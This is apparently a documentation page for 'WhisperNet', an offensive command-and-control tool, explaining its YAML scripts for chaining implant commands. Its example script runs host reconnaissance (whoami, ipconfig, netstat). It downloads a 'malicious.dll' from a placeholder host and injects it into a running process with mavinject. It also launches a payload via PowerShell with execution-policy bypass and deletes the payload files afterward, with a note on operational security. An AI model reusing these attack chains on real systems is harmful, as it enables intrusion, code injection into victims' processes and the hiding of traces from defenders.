# Command Extension Scripts

WhisperNet provides extensibility for commands using a **YAML-based** system, allowing you to define automated actions in sequence.

---

## Example Script

```yaml
commands:
  - command: recon
    actions:
      - command: shell
        args: whoami /all

      - command: shell
        args: ipconfig /all

      - command: shell
        args: netstat -ano

  - command: inject_dll
    actions:
        # set sleep to 1 at beginning, for rapid checkin/command execution
      - command: sleep
        args: 1

      - command: get_file
        args: http://someip/malicious.dll C:\malicious.dll

        # potential problem, .dll may not be finished downloading in 1 sec sleep

      - command: start-process
        args: mavinject <PID> /INJECTRUNNING C:\malicious.dll

        # set sleep back to 60 at end (or maybe have a mechanism for getting pior sleep time)
      - command: sleep
        args: 60

  - command: deploy_payload
    actions:
      - command: upload
        args: C:\temp\payload.bin /var/www/html/payload.bin

      - command: shell
        args: powershell -ExecutionPolicy Bypass -File C:\temp\payload.ps1

  - command: clean_up
    actions:
      - command: shell
        args: del /Q C:\temp\payload.bin

      - command: shell
        args: del /Q C:\temp\payload.ps1
```

---

## Opsec considerations:

Loading the scripts themselves has zero OPSEC impact. However, the commands within the scripts can have significant OPSEC implications depending on how they are configured and executed.

### **Key Features:**
- **YAML-Based:** Easily readable and modifiable command execution.
- **Multi-Step Actions:** Define multiple sequential steps under a single command.
- **Modular Design:** New commands can be added with ease.

